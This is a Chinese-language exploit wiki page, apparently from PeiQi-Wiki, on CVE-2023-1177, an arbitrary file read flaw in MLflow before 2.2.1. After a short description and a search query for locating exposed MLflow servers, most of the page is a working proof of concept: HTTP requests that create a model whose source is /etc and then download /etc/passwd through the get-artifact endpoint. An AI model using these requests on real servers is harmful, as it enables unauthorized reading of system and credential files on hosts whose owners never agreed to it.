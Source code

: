 # MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

<a-checkbox checked>MLflow < 2.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="MLflow"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1680785392550-723bb58a-8fb1-49ca-afd7-9faa9841b7ca.png)

验证POC

```plain
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![img](/assets/PeiQi-Wiki/img/1680785555309-bc13e99b-784d-46aa-9b93-b3ca28ff457e.png)

```plain
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![img](/assets/PeiQi-Wiki/img/1680785596505-b26cf5f7-10c6-4202-83f7-d5ccd71a797f.png)

```plain
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![img](/assets/PeiQi-Wiki/img/1680785731521-49f79166-61c1-4e98-9cef-461227256df9.png)